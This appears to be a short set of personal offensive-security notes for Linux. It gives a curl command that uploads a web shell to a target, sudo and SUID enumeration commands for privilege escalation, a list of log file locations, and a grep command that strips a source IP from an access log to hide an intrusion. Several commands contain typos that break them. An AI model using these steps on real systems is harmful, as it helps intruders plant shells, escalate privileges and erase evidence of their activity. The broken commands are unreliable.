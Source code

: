 ```yaml
---
tags: 🔻 🔻/OS/linux
aliases: Hacking Notes
---
```


#curl url upload file  
curl *http://ip* --upload-file shell.asp  
  
# Sudo Check
#sudocheck #privesc #shell 

sudo -l
{check what the user can run as sudo}
  
# SUID 
#suid_permissions
{check what suid have what permissions}

find / -perm -4000 -type f 2>/dev/null  
  
### writable permission  

find / perm /u=w -user \`whoami\` 2>/dev/null  
find / -perm /u+w,g+w -f -user \`whoami\` 2>/dev/null  
find / -perm /u+w -user \`whoami\` 2>/dev/nul  
  
  


## Find files with SUID permission for current user

    
find / perm /u=s -user \`whoami\` 2>/dev/null  
find / -user root -perm -4000 -print 2>/dev/null  
  
### open permission  

find / -perm -777 -type f 2>/dev/null  

  
### log files  

/var/log/messages  
/var/logs  
/var/log/auth.log  
/var/log/apache2/access.log  
/var/log/apache2/error.log  
grep -v '*src-ip-address*' /path/to/access\_log > a && mv a /path/to/access\_log